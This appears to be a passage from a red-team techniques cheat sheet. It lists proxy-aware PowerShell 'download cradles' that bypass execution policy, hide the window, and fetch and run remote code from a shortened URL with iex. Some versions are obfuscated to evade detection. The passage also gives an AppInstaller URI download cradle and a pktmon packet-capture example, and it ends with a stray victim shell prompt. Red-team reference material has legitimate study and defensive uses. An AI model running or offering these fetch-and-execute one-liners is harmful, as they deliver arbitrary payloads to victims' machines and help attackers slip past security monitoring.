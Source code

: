 # proxy aware cmd download cradles

# default download cradle
c:\wInDOwS\sysTem32\CmD   /cPowErShell -wINdowstYL  Hi  -nop -eXecU ByPAss -COm    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;iex $c.downloadstring(\"https://cutt.ly/syFzILs\")"
PowErShell -wINdowstYL  Hi  -nop -eXecU ByPAss -COm    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;iex $c.downloadstring(\"https://cutt.ly/syFzILs\")"

# obfuscated v1
C:\WINdOWS\SySteM32\CmD.EXe  /cpOWershEll  -eXecut byPaSS -Noprof  -w  H -Co    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;`i`e`x $c.downloadstring(\"ht\"+\"tps://cutt.ly/syFzILs\")"
poWershELl -execUT byPAss -WINDo  1  -nopR  -comm  "& ((vARiaBlE '*mdr*').Name[3,11,2]-JoiN'') ((('{2}c=new-obj'+'ect ne'+'t.'+'webclient;{2'+'}'+'c.p'+'roxy='+'[Net'+'.'+'WebR'+'equest]::'+'GetS'+'yst'+'emWebP'+'ro'+'x'+'y();{'+'2}c'+'.Pr'+'oxy.Cre'+'dentials=[Net'+'.Cr'+'edentialC'+'ache]::D'+'e'+'fau'+'l'+'tCredenti'+'als'+';{0}i{0}e'+'{0}x {'+'2}c.downl'+'oa'+'ds'+'t'+'ring({1}ht{1}+{1'+'}t'+'ps'+':'+'/'+'/'+'cutt.ly/syFzIL'+'s{1})') -F  [cHAR]96,[cHAR]34,[cHAR]36))"
```

## AppInstaller Download Cradle

Tool used for installation of AppX/MSIX applications on Windows 10. AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\<RANDOM-8-CHAR-DIRECTORY>

```
start ms-appinstaller://?source=https://raw.githubusercontent.com/RoseSecurity/Red-Teaming-TTPs/main/Windows.md
```

# Living Off the Land: Windows Packet Capturing

Packet Monitor (Pktmon) is an in-box, cross-component network diagnostics tool for Windows. It can be used for packet capture, packet drop detection, packet filtering and counting.

```
C:\Users\SecurityNik>pktmon filter add IP-TCP-SYN-443 --data-link IPv4 --ip-address 172.217.2.115 --transport-protocol tcp SYN --port 443
Filter added.

C:\Users\SecurityNik>pktmon filters list
 # Name           EtherType Protocol  IP Address    Port
 - ----           --------- --------  ----------    ----
 1 IP-TCP-SYN-443 IPv4      TCP (SYN) 172.217.2.115  443


[VICTIM]: PS C:\Users\Victim\Documents>